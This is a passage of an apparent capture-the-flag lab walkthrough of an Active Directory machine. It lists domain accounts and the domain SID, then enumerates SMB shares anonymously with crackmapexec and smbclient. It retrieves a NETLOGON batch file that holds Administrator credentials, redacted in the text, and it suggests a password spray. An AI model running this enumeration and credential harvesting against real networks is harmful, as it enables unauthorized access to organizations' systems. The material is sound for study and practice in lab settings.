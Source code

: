 | SID | SamAccountName | 
| -------- | -------- |
| 500 | Administrator |
| 501 | Guest |
| 502 | krbtgt |
| 1104 | A.Briggs | 
| 1105 | b.Brown | 
| 1106 | R.Cooper | 
| 1107 | J.Roberts | 
| 1108 | N.Thompson | 

We also get the Domain SID:
```bash
Domain SID is: S-1-5-21-1484473093-3449528695-2030935120
```
We don't have credentials for any of these accounts. From here we could try a password spray, but lets keep enumerating and keep that in mind for later.

## SMB Shares
We can use crackmapexec with any username as long we don't enter any password to list the shares:
```bash
> crackmapexec smb delegate.vl -u 'anonymous' -p '' --shares
SMB         DC1.delegate.vl 445    DC1              [*] Windows 10.0 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False)
SMB         DC1.delegate.vl 445    DC1              [+] delegate.vl\anonymous: 
SMB         DC1.delegate.vl 445    DC1              [+] Enumerated shares
SMB         DC1.delegate.vl 445    DC1              Share           Permissions     Remark
SMB         DC1.delegate.vl 445    DC1              -----           -----------     ------
SMB         DC1.delegate.vl 445    DC1              ADMIN$                          Remote Admin
SMB         DC1.delegate.vl 445    DC1              C$                              Default share
SMB         DC1.delegate.vl 445    DC1              IPC$            READ            Remote IPC
SMB         DC1.delegate.vl 445    DC1              NETLOGON        READ            Logon server share 
SMB         DC1.delegate.vl 445    DC1              SYSVOL          READ            Logon server share
```
No interesting share name here, however, we can read IPC$, NETLOGON, and SYSVOL.

Accessing the NETLOGON share we find a batch file with credentials:
```bash
> smbclient //delegate.vl/NETLOGON -U 'anonymous'
Password for [WORKGROUP\anonymous]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Aug 26 05:45:24 2023
  ..                                  D        0  Sat Aug 26 02:45:45 2023
  users.bat                           A      159  Sat Aug 26 05:54:29 2023

                5242879 blocks of size 4096. 1922032 blocks available
smb: \> get users.bat 
getting file \users.bat of size 159 as users.bat (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \> exit

> cat users.bat                                             
rem @echo off
net use * /delete /y
net use v: \\dc1\development 

if %USERNAME%==A.Briggs net use h: \\fileserver\backups /user:Administrator <redacted>
```